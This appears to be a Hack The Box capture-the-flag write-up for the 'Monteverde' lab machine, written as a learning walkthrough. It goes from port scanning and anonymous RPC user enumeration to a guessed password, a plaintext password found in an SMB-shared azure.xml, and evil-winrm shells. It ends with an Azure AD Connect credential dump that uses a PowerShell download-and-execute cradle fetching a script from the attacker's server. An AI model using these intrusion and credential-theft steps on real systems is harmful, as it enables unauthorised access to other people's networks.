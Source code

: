 - 2020-04-20
- Hack The Box: Monteverde

![machine profile](web/assets/htb_monteverde_profile.png)

**Summary:**
- Find credentials for user account over `msrpc`.
- Use credentials to enumerate SMB to discover more credentials.
- Exploit loose user permissions to dump Administrator credentials using Azure-ADConnect

**Setup:**
Add the box IP to our `/etc/hosts` file.

```console
$ printf "10.10.10.172\tmonteverde.htb\n" >> /etc/hosts
```

**Enumeration:**
Perform detailed portscan on the lower ports of `cascade.htb` using `nmap` to gather information on any exposed services. Then, perform a less resolute portscan to identify any open higher ports.

```console
$ sudo nmap -sC -sV monteverde.htb -oA nmap/initial; sleep 300 && \
    sudo nmap -p- -sS monteverde.htb -oA nmap/all-ports
$ cat nmap/initial.nmap
# Nmap 7.80 scan initiated Mon Apr  6 16:05:13 2020 as: nmap -Pn -sC -sV -oA nmap/initial monteverde.htb
Nmap scan report for monteverde.htb (10.10.10.172)
Host is up (0.041s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-06 14:27:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/6%Time=5E8B453B%P=x86_64-unknown-linux-gnu%r(
SF:DNSVersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07vers
SF:ion\x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -37m34s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-04-06T14:30:13
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr  6 16:09:57 2020 -- 1 IP address (1 host up) scanned in 283.52 seconds
```

Kerberos stands out as an exploitable service for later. If we look at the LDAP services, the box has `MEGABANK.LOCAL0` as its FQDN, we add this to our hosts file along with `monteverde.htb`. Before we can interact with kerberos, we need to enumerate user accounts. A common theme is unsecured `msrpc` which allows us to anonymously connect and dump user account information.

```console
$ rpcclient //monteverde.htb -U "" -N
Unable to initialize messaging context
rpcclient $> enumdomusers
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

**User:**
If we try the username as the password for each user we have success with `SABatchJobs`. Next, we enumerate SMB as an authenticated user.

```console
$ python smbmap.py -H monteverde.htb -u SABatchJobs -p SABatchJobs
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.172...
[+] IP: 10.10.10.172:445	Name: monteverde.htb
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
...
	.
	dr--r--r--                0 Fri Jan  3 13:12:48 2020	.
	dr--r--r--                0 Fri Jan  3 13:12:48 2020	..
	dr--r--r--                0 Fri Jan  3 13:15:23 2020	dgalanos
	dr--r--r--                0 Fri Jan  3 13:41:18 2020	mhope
	dr--r--r--                0 Fri Jan  3 13:14:56 2020	roleary
	dr--r--r--                0 Fri Jan  3 13:14:28 2020	smorgan
	users$                                            	READ ONLY
```

After inspecting each folder we find what appears to be a config file.

```console
smb: \mhope\> dir
  .                                   D        0  Fri Jan  3 13:41:18 2020
  ..                                  D        0  Fri Jan  3 13:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 13:40:23 2020

		524031 blocks of size 4096. 519955 blocks available
```

Downloading this locally and opening we discover a password for mhope.

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

We can now logon to the box using `evil-winrm` over `wsman` then collect our flag.

```console
$ evil-winrm -P 5985 -u mhope -p "4n0therD4y@n0th3r$" -i monteverde.htb

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> dir ../Desktop/user.txt


    Directory: C:\Users\mhope\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 user.txt
```

**Root:**
We look at the groups mhope is in to look for loose permissions.

```console
*Evil-WinRM* PS C:\Users\mhope\Documents> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 4:40:05 PM
Password expires             Never
Password changeable          1/3/2020 4:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory               \\monteverde\users$\mhope
Last logon                   4/22/2020 4:18:30 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users
The command completed successfully.
```

We see mhope is a member of `Azure Admins`, some searching leads us to [Azure-ADConnect.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1). The HTB VPN doesn't allow external connections so we download theh script to our local machine then spawn a HTTP server.

```console
$ wget "https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Azure-ADConnect.ps1"
--2020-04-22 13:57:52--  https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Azure-ADConnect.ps1
Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.60.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.60.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2264 (2.2K) [text/plain]
Saving to: ‘Azure-ADConnect.ps1’

Azure-ADConnect.ps1          100%[===========================================>]   2.21K  --.-KB/s    in 0s

2020-04-22 13:57:52 (25.9 MB/s) - ‘Azure-ADConnect.ps1’ saved [2264/2264]

$ python -m http.server
```

Once downloaded we import the script on the remote machine then exploit.

```console
*Evil-WinRM* PS C:\Users\mhope\Documents> IEX (New-Object Net.WebClient).DownloadString('http://10.10.XX.XX:8000/Azure-ADConnect.ps1');
*Evil-WinRM* PS C:\Users\mhope\Documents> Azure-ADConnect -server 127.0.0.1 -db ADSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: administrator
[+]Password: d0m@in4dminyeah!
```

We now have the Administrator credentials which we can use to connect to the box then read `root.txt`.

```console
$ evil-winrm -P 5985 -u Administrator -p "d0m@in4dminyeah!" -i monteverde.htb

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> dir ../Desktop/root.txt


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 root.txt
```
